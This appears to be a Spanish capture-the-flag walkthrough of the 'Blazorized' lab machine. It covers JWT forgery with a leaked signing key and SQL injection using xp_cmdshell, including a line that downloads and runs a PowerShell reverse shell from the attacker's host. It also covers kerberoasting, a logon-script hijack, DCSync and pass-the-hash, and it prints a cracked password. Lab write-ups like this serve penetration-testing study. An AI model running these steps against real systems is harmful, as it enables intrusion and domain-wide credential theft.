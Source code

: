 # Blazorized

Tags: [[_sqli]],[[_webExploitation]],[[_dc]],[[_permissionAbuse]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Windows</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
En este caso <span style="color:#07b4f2">no buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

Son <span style="color:#07b4f2">muchos</span> <span style="color:#ff669c">puertos</span> abiertos, iremos <span style="color:#ff2dc0">enumerando</span> <span style="color:#07b4f2">de a poco</span>.

<span style="color:#ff669c">80</span> - HTTP.
<span style="color:#ff669c">1433</span> - MSSQL.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ecacb6">blazorized.htb</span> lo <span style="color:#07b4f2">contemplamos</span> en el <span style="color:#ecacb6">/etc/hosts</span>

<span style="color:#ff669c">80</span>.
<span style="color:#ff2dc0">whatweb</span>. Un <span style="color:#ff2dc0">IIS</span>.
<span style="color:#ff2dc0">Web</span> hecha <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">Blazor WebAssembly</span>.
<span style="color:#07b4f2">Cosas</span> interesantes que <span style="color:#ff2dc0">enumerar</span>.

En un <span style="color:#07b4f2">apartado</span> de ver actualizaciones encontramos
<span style="color:#ecacb6">api.blazorized.htb</span> 
Cuando le <span style="color:#07b4f2">damos</span> a <span style="color:#07b4f2">checar</span>, nos <span style="color:#07b4f2">carga</span> más <span style="color:#07b4f2">contenido</span>. <span style="color:#07b4f2">Además</span>, como ahí mismo dice, <span style="color:#07b4f2">puedo</span> <span style="color:#ff2dc0">impersonar</span> al <span style="color:#ecacb6">admin</span> para <span style="color:#07b4f2">hacer</span> dicha <span style="color:#ff2dc0">petición</span>, usamos su <span style="color:#ff2dc0">token</span>, lo <span style="color:#ff2dc0">decodeamos</span> también, <span style="color:#07b4f2">no</span> tiene <span style="color:#07b4f2">mucho</span>.

En <span style="color:#ff2dc0">BurpSuite</span>, vemos <span style="color:#ff2dc0">peticiones</span> que <span style="color:#07b4f2">se realizan sobre</span> <span style="color:#ecacb6">admin.blazorized.htb</span>, hay <span style="color:#07b4f2">información</span> serializada que <span style="color:#07b4f2">vemos</span> en las <span style="color:#ff2dc0">respuestas</span>. Así que <span style="color:#07b4f2">usando</span> la <span style="color:#ff2dc0">extensión</span> <span style="color:#ecacb6">Blazor Traffic Processor</span>, podemos <span style="color:#07b4f2">pasarle</span> dicha <span style="color:#ff2dc0">data</span> para que nos la <span style="color:#07b4f2">represente bien</span>.

También, en la parte de <span style="color:#ecacb6">Target</span> -> <span style="color:#ecacb6">Site map</span>
Podemos ver las <span style="color:#ff2dc0">peticiones</span> hechas a <span style="color:#ecacb6">blazorized.htb</span>, y vemos varias que se realizan por detrás.
Nos <span style="color:#07b4f2">descargamos todas</span> las <span style="color:#ff2dc0">DLL</span>.
<span style="color:#ecacb6">/_framework/Blazorized.Helpers.dll</span>, es la <span style="color:#07b4f2">primera</span> que <span style="color:#07b4f2">sale</span> al <span style="color:#07b4f2">entrar a</span> <span style="color:#ecacb6">Check for Updates</span>, la <span style="color:#ff2dc0">decompilamos</span>. (<span style="color:#379075">Lo vimos desde burp, pero la idea es verlas desde un Windows</span>).
Podemos <span style="color:#ff2dc0">decompilarla</span> <span style="color:#07b4f2">usando</span> <span style="color:#ff2dc0">Avalonia ILSpy</span>.

Tenemos.
<span style="color:#ecacb6">admin.blazorized.htb</span> -> <span style="color:#ff2dc0">subdomain</span>.
Una <span style="color:#ff2dc0">cadena</span> como una <span style="color:#ff2dc0">key</span>, que<span style="color:#07b4f2"> tiene que ver</span> con un <span style="color:#ff2dc0">JWT</span>.
<span style="color:#ecacb6">superadmin@blazorized.htb </span>-> <span style="color:#ff2dc0">email</span>.
Y demás <span style="color:#07b4f2">información</span> que utilizaremos (<span style="color:#379075">está como junta, pero es ver el primero dato, y seguimos con lo demás</span>).

En <span style="color:#ecacb6">admin.blazorized.htb</span> hay un panel de <span style="color:#ff2dc0">login</span>.
<span style="color:#07b4f2">Tratemos</span> la <span style="color:#ff2dc0">cadena</span> he <span style="color:#07b4f2">información</span> que conseguimos. Esto para <span style="color:#07b4f2">conseguir</span> un <span style="color:#ff2dc0">JWT</span> válido.

<span style="color:#bef202">Opción 1</span>.
<span style="color:#07b4f2">Seguimos</span> el siguiente <span style="color:#ff2dc0">script</span>.
<span style="color:#07b4f2">Ajustamos</span> las <span style="color:#ff2dc0">variables</span> a la información que tenemos.
![[Pasted image 20241108213910.png]]
![[Pasted image 20241108214017.png]]
![[Pasted image 20241108214033.png]]

<span style="color:#ff2dc0">Ejecutarlo</span>.
![[Pasted image 20241108195324.png]]
Nos <span style="color:#07b4f2">quedamos con</span> el de <span style="color:#ecacb6">Temporary JWT</span>.
Vamos al <span style="color:#ecacb6">jwt.io</span> y lo <span style="color:#ff2dc0">decodeamos</span>, en la parte de <span style="color:#ff2dc0">verificar signature</span> colocamos el <span style="color:#07b4f2">valor</span> del <span style="color:#ff2dc0">key</span>, <span style="color:#ecacb6">8697...</span>
Y <span style="color:#ff2dc0">seteamos</span><span style="color:#ecacb6"> "exp": 1740000000</span>
<span style="color:#379075">Aunque en realidad no haría falta</span>.

<span style="color:#bef202">Opción 2</span>. 
Crearlo en la siguiente <span style="color:#07b4f2">página</span>
http://jwtbuilder.jamiekurtz.com/?ref=benheater.com

<span style="color:#ff2dc0">Standard JWT Claims</span>.
<span style="color:#ecacb6">Issued At</span> -> <span style="color:#ecacb6">now</span>
<span style="color:#ecacb6">Expiration</span> -> <span style="color:#ecacb6">In 1 year</span>
![[Pasted image 20241109161156.png]]

<span style="color:#ff2dc0">Additional Claims</span>.
¿Recordamos el <span style="color:#ff2dc0">token</span> del <span style="color:#ecacb6">admin</span> <span style="color:#07b4f2">que</span> <span style="color:#ff2dc0">impersonábamos</span>?. el que veíamos al <span style="color:#07b4f2">checar actualizaciones</span>, pues en ese <span style="color:#07b4f2">tenía</span><span style="color:#ff2dc0"> Claim Types</span>, los <span style="color:#07b4f2">colocamos</span>, y <span style="color:#07b4f2">ponemos</span> los <span style="color:#07b4f2">valores</span> importantes.
![[Pasted image 20241109161308.png]]

<span style="color:#ff2dc0">Signed JSON Web Token</span>.
<span style="color:#ecacb6">Key</span>, <span style="color:#ecacb6">HS512</span>, <span style="color:#ecacb6">Create Signed JWT</span>.
![[Pasted image 20241109161455.png]]

<span style="color:#07b4f2">Quedaría</span> así
![[Pasted image 20241109161819.png]]

<span style="color:#bef202">Opción 3</span>.
<span style="color:#07b4f2">Usando</span> <span style="color:#ff2dc0">python</span> de esta manera (<span style="color:#379075">o crearlo en un script</span>)
![[Pasted image 20241112225302.png]]


Vamos a la <span style="color:#ff2dc0">terminal</span> del navegador en el <span style="color:#ff2dc0">login</span>.
<span style="color:#88c425">localStorage.removeItem('jwt');</span>
<span style="color:#88c425">localStorage.setItem('jwt', 'token');</span>

---
Como <span style="color:#07b4f2">nada</span> es <span style="color:#07b4f2">perfecto</span>, aquí hay cosas que debemos <span style="color:#07b4f2">tener</span> en <span style="color:#07b4f2">cuenta</span>.
<span style="color:#ecacb6">1.-</span> La <span style="color:#07b4f2">segunda o tercer forma</span> de <span style="color:#07b4f2">crear</span> el <span style="color:#ff2dc0">JWT</span> es <span style="color:#07b4f2">mejor</span>.
<span style="color:#ecacb6">2.-</span> Probamos a <span style="color:#07b4f2">meter</span> el <span style="color:#ff2dc0">JWT</span> en <span style="color:#ecacb6">blazorized.htb</span>, <span style="color:#07b4f2">después</span> lo hacemos <span style="color:#07b4f2">en</span> <span style="color:#ecacb6">admin.blazorized.htb</span>

---
Una vez <span style="color:#07b4f2">dentro</span>, <span style="color:#ff2dc0">enumeramos</span> de todo.
Nos comentan que <span style="color:#07b4f2">no</span> <span style="color:#ff2dc0">consumimos</span> la <span style="color:#ff2dc0">API</span> estando como <span style="color:#ecacb6">admin</span>, sino que<span style="color:#07b4f2"> hablamos con</span> la <span style="color:#ff2dc0">DataBase</span> <span style="color:#07b4f2">directamente</span>, cuidado.

Hay un <span style="color:#07b4f2">apartado</span> de checar títulos duplicados, y como son <span style="color:#ff2dc0">consultas</span> a la <span style="color:#ff2dc0">base de datos</span>, podemos <span style="color:#07b4f2">probar cosas</span>.
El <span style="color:#ff2dc0">campo</span> es <span style="color:#ff2dc0">vulnerable</span> a <span style="color:#ff2dc0">SQLI</span>.
Recordando que está el <span style="color:#ff2dc0">MSSQL</span>, y al investigar encontramos que hay una <span style="color:#07b4f2">forma</span> de <span style="color:#ff2dc0">ejecutar comandos</span>, probemos cosas.
<span style="color:#ecacb6">test' EXEC xp_cmdshell "ping 10.10.14.107"-- -</span> :    me <span style="color:#07b4f2">llegan</span> los <span style="color:#ff2dc0">ping</span>.

Nos hacemos una <span style="color:#ff2dc0">petición</span> a <span style="color:#07b4f2">nuestro</span> <span style="color:#ff2dc0">servidor</span> que montemos, y <span style="color:#ff2dc0">servimos</span> un <span style="color:#ff2dc0">script</span> en <span style="color:#ff2dc0">PS</span> que al <span style="color:#07b4f2">interpretarlo</span> con <span style="color:#ff2dc0">IEX</span> en la máquina víctima, nos <span style="color:#07b4f2">de</span> una <span style="color:#ff2dc0">shell</span>. 
Como vimos al investigar, lo mejor es <span style="color:#07b4f2">agregar</span> algunos <span style="color:#ff2dc0">parámetros</span> para que <span style="color:#07b4f2">se</span> <span style="color:#ff2dc0">interprete</span> todo bien, introducimos lo siguiente
<span style="color:#ecacb6">test' EXEC xp_cmdshell "echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.107/RevPS.ps1') | powershell -noprofile"-- -</span>

Y pa deeeentro.


<span style="color:#ff669c">1433</span>.
<span style="color:#ff2dc0">Enumerar</span>.
https://medium.com/@oumasydney2000/mssql-enumeration-1433-1ee5fa6ac5d3
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
https://swisskyrepo.github.io/InternalAllTheThings/databases/mssql-command-execution/#summary

Sin embargo, <span style="color:#07b4f2">no</span> <span style="color:#ff2dc0">enumeramos</span> mucho desde fuera.
<span style="color:#bef202">Vamos al 80</span>.


## Escalada

Enumerar todo el sistema.
Estamos como el usuario <span style="color:#ecacb6">NU_1055</span>

Hay <span style="color:#07b4f2">varios</span> <span style="color:#ecacb6">usuarios</span> a nivel de <span style="color:#ff2dc0">Dominio</span>.
Los metemos un diccionario para <span style="color:#07b4f2">probar</span> un <span style="color:#ff2dc0">ASREPRoast</span>. Pero <span style="color:#07b4f2">no se puede</span> con <span style="color:#07b4f2">ninguno</span>.

En <span style="color:#ecacb6">C:\Windows\SYSVOL\domain\scripts</span> tenemos <span style="color:#ff2dc0">directorios</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">scripts</span> <span style="color:#ecacb6">.bat</span>, hay que encontrar los que no estén vacíos.

No encontramos muchas cositas, lo mejor será <span style="color:#ff2dc0">enumerar</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">BloodHound</span>.
<span style="color:#07b4f2">Generamos</span> el <span style="color:#ff2dc0">comprimido</span> de la <span style="color:#07b4f2">información</span> del <span style="color:#ff2dc0">dominio</span> y nos lo traemos.
Lo <span style="color:#07b4f2">añadimos al</span> <span style="color:#ff2dc0">BloodHound</span> y <span style="color:#07b4f2">analizamos</span> todo.

Vamos al usuario <span style="color:#ecacb6">NU_1055</span> (<span style="color:#379075">le damos doble click</span>) -> <span style="color:#ecacb6">Node Info</span> -> <span style="color:#ecacb6">Outbound Object Control</span> (<span style="color:#ecacb6">First Degree Object Control</span>).
Podemos hacer un <span style="color:#ff2dc0">WriteSPN</span> <span style="color:#07b4f2">sobre</span> el usuario <span style="color:#ecacb6">RSA_4810</span>
<span style="color:#ecacb6">1.-</span> Le <span style="color:#07b4f2">asignamos</span> un <span style="color:#ff2dc0">SPN</span> al <span style="color:#ecacb6">usuario</span>.
<span style="color:#ecacb6">2.-</span> <span style="color:#07b4f2">Solicitamos</span> un <span style="color:#ff2dc0">service ticket</span> para <span style="color:#07b4f2">dicho</span> <span style="color:#ff2dc0">SPN</span>.
<span style="color:#ecacb6">3.-</span> Subimos el <span style="color:#ff2dc0">mimikatz.exe</span> para <span style="color:#07b4f2">obtener</span> un <span style="color:#ecacb6">.kirbi</span>
<span style="color:#ecacb6">4.-</span> <span style="color:#ff2dc0">kirbi2john</span> para <span style="color:#07b4f2">obtener</span> un <span style="color:#ff2dc0">hash</span> y <span style="color:#ff2dc0">crackearlo</span>.
<span style="color:#379075">En el apartado de "Enumerar en BloodHound" vemos cómo llevarlo a cabo</span>.
Obtenemos la <span style="color:#07b4f2">password</span> de <span style="color:#ecacb6">RSA_4810</span>
<span style="color:#ecacb6">RSA_4810:(Ni7856Do9854Ki05Ng0005 #)</span>

Nos <span style="color:#07b4f2">conectamos</span> con <span style="color:#ff2dc0">evil-winrm </span>con dichas <span style="color:#ff2dc0">credenciales</span>.
<span style="color:#07b4f2">Checamos</span> nuevamente en <span style="color:#ff2dc0">BloodHound</span>.
<span style="color:#ecacb6">Analysis</span> -> <span style="color:#ecacb6">Dangerous Privileges</span> (<span style="color:#ecacb6">Find Principals with DCSync Rights</span>).
Vemos varios <span style="color:#07b4f2">usuarios</span>, entre ellos el <span style="color:#ecacb6">SSA_6010</span> (<span style="color:#379075">que tiene su directorio en C:\Users</span>)

Subimos el <span style="color:#ecacb6">PowerView.ps1</span> <span style="color:#379075">(usaremos sus funciones</span>), importamos el módulo y <span style="color:#ff2dc0">enumeramos</span> el usuario <span style="color:#ecacb6">SSA_6010</span> y de todo.
<span style="color:#88c425">Get-DomainUser ssa_6810</span> y vemos que <span style="color:#ff2dc0">inicia sesión</span> cada <span style="color:#07b4f2">minuto</span>.
Hay una <span style="color:#ff2dc0">función</span> interesante 
<span style="color:#88c425">Find-InterestingDomainAcl</span> :    para ver <span style="color:#ff2dc0">propiedades</span> que podemos<span style="color:#07b4f2"> alterar como</span> el <span style="color:#ecacb6">usuario</span> actual <span style="color:#07b4f2">en</span> el <span style="color:#07b4f2">que estamos</span>.
Tenemos <span style="color:#07b4f2">sobre</span><span style="color:#ecacb6"> SSA_6010</span>
<span style="color:#ecacb6">ActiveDirectoryRights : WriteProperty</span>
<span style="color:#ecacb6">ObjectAceType : Script-Path</span>

<span style="color:#ecacb6">Script-Path</span> es <span style="color:#07b4f2">delicado</span>, porque podemos <span style="color:#07b4f2">modificar</span> lo que <span style="color:#07b4f2">queremos</span> que el <span style="color:#ecacb6">usuario</span> <span style="color:#07b4f2">haga</span> en el <span style="color:#ff2dc0">inicio de sesión</span>.
Por lo<span style="color:#07b4f2"> regular está en</span> <span style="color:#ecacb6">SYSVOL</span>.
<span style="color:#07b4f2">Recordando</span> los <span style="color:#ecacb6">.bat</span> que habíamos <span style="color:#07b4f2">encontrado</span>, ya podemos entenderlos mejor.
<span style="color:#ecacb6">C:\Windows\SYSVOL\sysvol\blazorized.htb\scripts</span>

<span style="color:#88c425">icacls *</span> :    vemos que <span style="color:#07b4f2">en uno tenemos</span> <span style="color:#ff2dc0">control total </span>y de <span style="color:#07b4f2">forma</span> <span style="color:#ff2dc0">recursiva</span>.
Todo <span style="color:#07b4f2">lo que cree</span> dentro del <span style="color:#ecacb6">directorio</span>, <span style="color:#07b4f2">se</span> <span style="color:#ff2dc0">ejecutará</span> cuando el <span style="color:#ecacb6">usuario</span> <span style="color:#ff2dc0">inicie sesión</span>.
Así que <span style="color:#07b4f2">podríamos</span> ir a <span style="color:#ecacb6">revshells.com</span> y <span style="color:#07b4f2">crear</span> un <span style="color:#ff2dc0">payload</span> en <span style="color:#ff2dc0">PS</span> (<span style="color:#ff2dc0">base64</span>) para entablarnos una <span style="color:#ff2dc0">reverse shell</span>. <span style="color:#379075">Para variarle, porque se puede de muchas maneras</span>.
<span style="color:#88c425">echo 'payloadPSBase64' | Out-File -FilePath reverse.bat -Encoding ASCII</span> :    <span style="color:#07b4f2">dentro</span> del <span style="color:#ff2dc0">directorio</span> con <span style="color:#ff2dc0">permisos</span> de <span style="color:#ff2dc0">escritura</span>.

Pero <span style="color:#07b4f2">falta</span> algo, al <span style="color:#07b4f2">hacer</span>
<span style="color:#88c425">Get-ADUSer ssa_6010 -Properties ScriptPath</span> :    vemos que el <span style="color:#ecacb6">ScriptPath</span> está <span style="color:#07b4f2">vacío</span>,<span style="color:#07b4f2"> porque parte de</span> la <span style="color:#ff2dc0">ruta</span> <span style="color:#ecacb6"> C:\...\scripts</span>, es decir, ya <span style="color:#07b4f2">toma ese</span> <span style="color:#ff2dc0">directorio</span>, pero me <span style="color:#07b4f2">falta</span> que <span style="color:#07b4f2">conozca</span> el <span style="color:#ecacb6">.bat</span> que <span style="color:#07b4f2">creamos</span>, hacemos
<span style="color:#88c425">Get-ADUSer ssa_6010 | Set-ADUSer -ScriptPath A32FF3AEAA23\reverse.bat</span>

Sería cuestión de <span style="color:#07b4f2">esperar</span> y <span style="color:#07b4f2">nos convertimos en</span> <span style="color:#ecacb6">SSA_6010</span>.
Ya habíamos visto que podemos <span style="color:#07b4f2">hacer</span> un <span style="color:#ff2dc0">DCSync</span> <span style="color:#07b4f2">sobre</span> el <span style="color:#ff2dc0">dominio</span>, <span style="color:#ecacb6">blazorized.htb</span>, <span style="color:#07b4f2">esto por</span> los <span style="color:#ff2dc0">permisos</span> de <span style="color:#ecacb6">GetChangesAll</span> y <span style="color:#ecacb6">GetChanges</span>.
<span style="color:#ecacb6">1.-</span> Subimos el <span style="color:#ecacb6">mimikatz.exe</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#ecacb6">2.-</span> Lo <span style="color:#ff2dc0">ejecutamos</span> para <span style="color:#07b4f2">obtener</span> el <span style="color:#ff2dc0">Hash NTLM</span> del <span style="color:#ecacb6">Administrator</span>.
<span style="color:#ecacb6">3.-</span> Empleamos el <span style="color:#ecacb6">Hash</span> para <span style="color:#07b4f2">conectarnos</span> con <span style="color:#ff2dc0">evil-winrm</span> haciendo <span style="color:#ff2dc0">Pass The Hash</span>.
<span style="color:#379075">En el apartado de "Enumerar en BloodHound" vemos cómo llevarlo a cabo</span>

Y pa deeeeeeeeentro.
FIN.
